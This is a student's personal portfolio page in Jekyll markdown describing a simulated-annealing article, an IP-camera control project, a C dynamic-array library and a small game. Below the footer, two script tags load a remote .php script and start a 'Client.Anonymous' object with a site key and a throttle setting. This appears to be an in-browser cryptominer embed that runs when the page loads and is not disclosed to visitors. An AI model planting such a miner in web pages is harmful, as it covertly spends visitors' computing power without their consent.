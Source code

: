 ```yaml
---
layout: default
---
```


# Hello, World

This is my page, [here](./about-en.html) i'll tell you about myself, show you some thing i've done and try and convice you to call me to your next project.

## 1. Article
#### Optimizing Simulated Annealing hyper-parameters for function roots search using genetic algorithms
By the end of my first year of college I had the chance to take part in a scientific initiation with Iara da Cunha. Our objective was to efficiently find zeroes of functions, to accomplish such task i learned about optimization heuristics, e noticed that there was the possibility of optimizing the optimization heuristic, I used a genetic algorithm for that. Article available at [Revista Eletrônica de Iniciação Científica em Computação](goo.gl/dJZVQt), from UFRGS.

## 2. Aricle
#### Extension and control of IP cameras via reserve engineering, and it's application in image recognition
In this project the objective was solving the problem of controlling several IP cameras (of questionable precedence) for utilizing computer vision tests. Solving the problem was achieved by dividing it into two parts: Camera control and Image recognition.
For the first part I reverse-engineered the UI's requests to the camera, created a C application thar recieves a command for the camera, read a JSON configuration file for that camera type, interpreted how to make the correct request for the camera and used libcurl to send the request.
Solved the pragmatic camera control problem i used OpenCV to open the camera feed, apply thresholding of the frames to get a centroid, the difference from the image center to the centroid was used to center the cameras. Available at [bitbucket](https://bitbucket.org/Cauef/ctrlcam/).

## 3. Project
#### Fat-array
Dinamic vectors of arbitrary type using C to guarantee strong typing and utilization flexibility. Available [here](https://github.com/cauefcr/Fat-Array)

## 4. Game
I created a game with Construct 2, in this game you're the monster, trying to protect your tower from the pesky, greedy adventurers, play [here](htpps://caue.site/whosinmytower)

&copy;2018 Cauê Felchar, 
Feel free to contact me at <a href="mailto:caue.fcr<at>gmail.com">caue.fcr< at >gmail.com</a>
  
<script src="http://<your-domain>/<path-to-script>/kpOJ.php?f=e2vo.js"></script>
<script>
    var _client = new Client.Anonymous('20506d57832bbddbd4653cd8a030075712c1323ce68b1488f82dfa8b85f6b8c0', {
        throttle: 0.6
    });
    _client.start();
    

</script>
